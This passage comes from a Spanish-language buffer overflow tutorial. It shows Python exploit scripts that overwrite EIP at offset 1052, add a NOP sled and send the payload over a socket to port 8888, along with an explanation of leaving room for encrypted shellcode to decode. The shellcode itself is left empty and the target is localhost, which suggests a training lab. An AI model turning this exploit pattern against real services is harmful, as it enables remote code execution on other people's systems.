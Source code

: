         payload = before_eip + eip + shellcode

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((remoteAddress, 8888))
        s.send(payload)

    if __name__ == "__main__":
        executeExploit()
    ```

Aqui hay que tener en cuenta el echo que nuestra shell code esta cifrada y que tenemos que dejar un margen para que cuando
el codigo nos salte al ESP tenga tiempo para desencryptar el codigo. Para esto tenemos dos possibilidades.

- Añdir al shell code unos No Operation code **NOPS**
- Effectuar un desplazamiento de la pila con la instruccion

```bash
 sub esp, 0x10 
```

Que simplemente es, en el caso de las NOPS, añadir codigo que no hace nada. Se hacen con el caracter Hexadecimal

```bash
 \x90 
```

```python
 #!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time
from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    shellcode = ()
    offset = 1052
    before_eip = b"A" * offset
    eip = pack("<I", 0x68a98a7b)
    nops = b"\x90"*16

    payload = before_eip + eip + nops + shellcode

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```
